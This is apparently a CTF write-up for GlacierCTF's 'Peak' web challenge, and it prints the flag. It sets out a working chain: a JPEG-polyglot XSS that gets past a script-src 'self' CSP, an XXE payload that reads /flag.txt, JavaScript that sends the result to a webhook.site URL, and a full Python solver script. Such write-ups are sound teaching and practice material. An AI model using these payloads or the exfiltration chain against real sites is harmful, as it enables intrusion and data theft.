


# Peak [88 Solves]

## Description

> Within the heart of Austria's alpine mystery lies your next conquest. Ascend the highest peak, shrouded in whispers of past explorers, to uncover the flag.txt awaiting atop. Beware the silent guards that stand sentinel along the treacherous path, obstructing your ascent.
>
> author: Chr0x6eOs
>
> <https://peak.web.glacierctf.com>
>
> Attachments: challenge.zip

<details><summary>Attachment file tree</summary>

```console
$ unzip -t challenge.zip
Archive:  challenge.zip
    testing: dist/                    OK
    testing: dist/flag/               OK
    testing: dist/flag/flag.txt       OK
    testing: dist/admin-simulation/   OK
    testing: dist/admin-simulation/admin.py   OK
    testing: dist/web/                OK
    testing: dist/web/assets/         OK
    testing: dist/web/assets/popper.js   OK
    testing: dist/web/assets/img/     OK
    testing: dist/web/assets/img/peak.png   OK
    testing: dist/web/assets/img/map.png   OK
    testing: dist/web/assets/img/sightseeing.png   OK
    testing: dist/web/assets/img/road.png   OK
    testing: dist/web/assets/img/hiking.png   OK
    testing: dist/web/assets/img/climbing.png   OK
    testing: dist/web/assets/jquery.js   OK
    testing: dist/web/assets/bootstrap.js   OK
    testing: dist/web/assets/leaflet.js   OK
    testing: dist/web/actions/        OK
    testing: dist/web/actions/logout.php   OK
    testing: dist/web/actions/register.php   OK
    testing: dist/web/actions/login.php   OK
    testing: dist/web/actions/contact.php   OK
    testing: dist/web/login.php       OK
    testing: dist/web/index.php       OK
    testing: dist/web/admin/          OK
    testing: dist/web/admin/data.example   OK
    testing: dist/web/admin/map.php   OK
    testing: dist/web/admin/includes/   OK
    testing: dist/web/admin/includes/session.php   OK
    testing: dist/web/admin/support.php   OK
    testing: dist/web/uploads/        OK
    testing: dist/web/uploads/.htaccess   OK
    testing: dist/web/includes/       OK
    testing: dist/web/includes/loggedon.php   OK
    testing: dist/web/includes/csp.php   OK
    testing: dist/web/includes/footer.php   OK
    testing: dist/web/includes/error.php   OK
    testing: dist/web/includes/header.php   OK
    testing: dist/web/includes/config.php   OK
    testing: dist/web/includes/session.php   OK
    testing: dist/web/includes/menu.php   OK
    testing: dist/web/pages/          OK
    testing: dist/web/pages/view_message.php   OK
    testing: dist/web/pages/climbing.php   OK
    testing: dist/web/pages/hiking.php   OK
    testing: dist/web/pages/sightseeing.php   OK
    testing: dist/web/pages/contact.php   OK
    testing: dist/web/pages/directions.php   OK
    testing: dist/sqlite.db           OK
    testing: dist/docker-compose.yml   OK
    testing: dist/.docker/            OK
    testing: dist/.docker/Dockerfile-web   OK
No errors detected in compressed data of challenge.zip.
```

</details>

## Flag

gctf{Th3_m0unt4!n_t0p_h4s_th3_b3st_v!3w}

## Solution

The flag is in /flag.txt file.

### XSS

Looking at the attached source code, this Web application has a Cross Site Scripting (XSS) in /pages/view_message.php?id=yourid page because `$message['content']` is rendered without HTML escape.

```php
<!-- dist/web/pages/view_message.php -->

        <!-- (snip) -->
        <section id="message" class="py-5">
            <div class="container mt-5">
                <?php if (isset($message)): ?>
                    <h1><?php echo htmlentities($message['title']);?></h1>
                    <p><?php echo $message['content']; ?><!-- this -->
                    <?php if($message['file'] !== "") : ?>
                        <div>
                        ">
                        </div>
                    <?php endif;?>
                <?php endif; ?></p>
            </div>
        </section>
        <!-- (snip) -->
```

However, the payload `<script>alert(1)</script>` does not work due to the following [Content Security Policy (CSP)](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) header:

```console
$ curl -D- https://peak.web.glacierctf.com//pages/view_message.php?id=41
(snip)
Content-Security-Policy: script-src 'self'
(snip)
```

It is possible to bypass CSP by XSS in JPEG Polyglot.
I have previously implemented [Exploiting XSS with JPEG Polyglot](https://github.com/4n86rakam1/xss_injection_in_jpeg) for a different purpose.
I am testing XSS with CSP bypass using this tool.

1. Create a JPEG image containing as XSS payload.

   ```bash
   # Requirement: `convert` command in ImageMagick
   git clone https://github.com/4n86rakam1/xss_injection_in_jpeg.git
   echo 'alert(1)' > payload.js
   python3 xss_injection_in_jpeg/exploit.py --payload-file payload.js --imagesize 10x10 --output xss.jpg
   ```

1. Upload the image created in the previous step and access /pages/view_message.php?id=yourid to retrieve image path
1. Post `<script charset="ISO-8859-1" src="yourimagepath"></script>` as a content parameter and access /pages/view_message.php?id=yourid

1. Got XSS

   

### XXE

Next, it has XML external entity (XXE) injection in dist/web/admin/map.php.

Tested:

1. `docker-compose up -d`
1. Login as admin (default admin password is `example-password`) in localhost
1. Access <http://localhost/admin/map.php>
1. Submit the following payload:

   ```xml
   <?xml version="1.0" encoding="UTF-8"?>
   <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///flag.txt"> ]>
   <markers>
       <marker>
           <lat>47.0748663672</lat>
           <lon>12.695247219</lon>
           <name>&xxe;</name>
       </marker>
   </markers>
   ```

1. Got the flag through XXE Path Traversal

  

### Exploit Step

1. Create XSS payload

   ```javascript
   fetch("/admin/map.php", {
     method: "POST",
     headers: { "Content-Type": "application/x-www-form-urlencoded" },
     body: new URLSearchParams({
       data: '<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///flag.txt"> ]><markers><marker><lat>47.0748663672</lat><lon>12.695247219</lon><name>&xxe;</name></marker></markers>',
     }),
   })
     .then((resp) => resp.text())
     .then((text) => {
       new Image().src =
         "https://webhook.site/<yourwebhook>/?data=" +
         btoa(text);
     });
   ```

1. Create a JPEG image containing as XSS payload.

   ```bash
   # Requirement: `convert` command in ImageMagick
   git clone https://github.com/4n86rakam1/xss_injection_in_jpeg.git
   vi payload.js  # paste XSS payload created in the previous step
   python3 xss_injection_in_jpeg/exploit.py --payload-file payload.js --imagesize 10x10 --output xss.jpg
   ```

1. Execute the following solver.py

   ```python
   import requests
   import random, string
   import re
   
   requests.packages.urllib3.disable_warnings()
   
   BASE_URL = "https://peak.web.glacierctf.com"
   # BASE_URL = "http://localhost"
   USERNAME = PASSWORD = "".join(
       random.choices(string.ascii_letters + string.digits, k=10)
   )
   
   
   def main():
       s = requests.Session()
       # s.proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
       s.verify = False
   
       # register user
       s.post(
           f"{BASE_URL}/actions/register.php",
           data={"username": USERNAME, "password": PASSWORD},
           allow_redirects=False,
       )
   
       # post image
       res = s.post(
           f"{BASE_URL}/actions/contact.php",
           files={
               "image": ("test.jpg", open("xss.jpg", "rb"), "image/jpeg"),
           },
           data={"title": "a", "content": "b"},
           allow_redirects=True,
       )
   
       # retrieve message path. e.g. /pages/view_message.php?id=32
       message_path = re.findall(
           r"<a name='message' href='(.*?)'>",
           res.text,
       )[0]
   
       # request to message_path
       res = s.get(f"{BASE_URL}{message_path}")
   
       # retrieve image path. e.g. /uploads/65642f83b95101701064579759044
       image_path = re.findall(r'', res.text)[0]
   
       xss_payload = f'<script charset="ISO-8859-1" src="{image_path}"></script>'
   
       # post xss payload
       res = s.post(
           f"{BASE_URL}/actions/contact.php",
           data={"title": "a", "content": xss_payload},
           allow_redirects=False,
       )
   
       # Check your webhook request.
   
   
   if __name__ == "__main__":
       main()
   ```

